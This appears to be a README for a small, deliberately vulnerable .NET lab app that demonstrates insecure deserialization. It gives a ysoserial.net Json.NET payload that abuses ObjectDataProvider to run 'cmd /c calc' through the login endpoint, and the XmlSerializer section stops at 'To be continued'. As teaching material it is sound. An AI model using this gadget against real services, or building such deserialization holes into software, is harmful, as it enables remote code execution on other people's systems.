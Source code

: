 # This is a small poc about Insecure Deserialization in .Net. Each function (login, signup,...) have each type of insecure deserialization. 
* With login function, it's refered to Json.Net.
* With signp function, it's refered to XMLSerializer.
# How to use this:
* Download this code
* Open it with Microsoft VS
* Run
# 1. Trigger RCE in login function
* Send this payload (create by ysoserial.net) to localhost:<port>//Account/Login:
  ```
  {
    "username": {
        "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
        "MethodName": "Start",
        "MethodParameters": {
            "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "$values": [
                "cmd",
                "/c calc"
            ]
        },
        "ObjectInstance": {
            "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
        }
    },
    "password": "dummy"
  }
  ```
  # 2. Trigger RCE in sigup function
  ... To be continued...
